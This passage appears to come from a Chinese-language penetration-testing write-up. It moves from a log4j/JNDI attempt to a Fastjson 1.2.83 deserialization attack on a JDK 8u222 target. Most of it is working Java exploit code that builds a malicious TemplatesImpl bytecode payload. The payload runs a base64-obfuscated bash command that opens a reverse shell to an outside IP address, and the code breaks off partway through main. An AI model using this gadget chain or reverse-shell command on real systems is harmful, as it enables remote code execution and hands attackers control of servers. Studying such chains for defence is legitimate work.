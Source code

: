 [![](assets/1708870136-75a3a547394ea06c60464f76bf41bcb2.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121585.png)​

发现 java 版本为`jdk1.8.0_222`​,因为在 log4j 打的其实就是 JNDI 注入，所以第一时间想到的就是 此版本已经是 jdk8u191 之后了，所以就不能够进行远程加载类了，那再探测下`fastjson`​的 1.2.83 使用通用的链子来打一下

```bash
package Fastjson;
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class F83 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTIuMTM2LjQ2LjI4Lzc5NzkgMD4mMQ==}|{base64,-d}|{bash,-i}")});
```
